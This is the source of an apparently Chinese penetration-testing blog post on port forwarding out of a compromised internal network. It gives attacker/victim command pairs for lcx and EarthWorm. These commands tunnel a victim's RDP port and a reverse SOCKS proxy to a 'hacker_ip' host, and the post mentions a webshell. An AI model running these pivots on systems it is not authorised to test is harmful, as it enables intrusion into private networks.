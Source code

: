 +++
date = "2016-08-08T19:33:45+08:00"
description = ""
draft = false
tags = ["端口转发"]
title = "端口转发"
topics = ["Pentest"]

+++

### 0x00 应用场景
* 内网IP的80端口通过端口映射到了外网IP的80端口上
* 内网的Web服务器通过外网IP反向代理(如Nginx)
也就是说Web服务器在内网中

### 0x01 判断Web是否为内网
* 向ping域名，查看IP是外网
* 用webshell查看ip却是内网IP

### 0x02 端口转发工具
* lcx
* htran
* [EarthWorm](http://rootkiter.com/EarthWorm/)
* netsh
* reGeorg
* meterpreter porfwd

### 0x03 lcx端口转发
* Hacker：lcx.exe -listen 500 8888
* Victim：lcx.exe -slave hacker_ip 500 victim_ip 3389
* Hacker：cmd mstsc hacker_ip:500

![hacker运行lcx](/img/post/privilge_escalation_win_hacker_run_lcx.png)
![vimctim端运行lcx](/img/post/privilge_escalation_win_vimctim_run_lcx.png)
![hacker远程连接](/img/post/privilge_escalation_win_hacker_remote_conn.png)
![hacker远程连接成功](/img/post/privilge_escalation_win_hacker_remote_conn_success.png)

### 0x04 EarchWorm端口转发
* Hacker：./ew -s rcsocks -l 1080 -e 8888
* Victim：./ew -s rssocks -d hacker_ip -e 8888
![earchworm原理](/img/post/privilge_escalation_win_earchworm.png)
#### 1. 启动EarchWorm
![hacker服务器启动ew](/img/post/privilge_escalation_win_linux_run_ew.png)
![victim启动ew](/img/post/privilge_escalation_win_victim_run_ew.png)
![victim连接hacker服务器](/img/post/privilge_escalation_win_linux_get_victim_conn.png)
#### 2. hacker主机使用代理
![hacker内网主机设置代理1](/img/post/privilge_escalation_win_hacker_set_proxy1.png)
![hacker内网主机设置代理2](/img/post/privilge_escalation_win_hacker_set_proxy2.png)
#### 3. hacker内网主机连接目标的内网主机
![hacker连接内网主机](/img/post/privilge_escalation_win_ew_hacker_remote_conn.png)
![hacker连接内网主机成功](/img/post/privilge_escalation_win_ew_hacker_remote_conn_success.png)

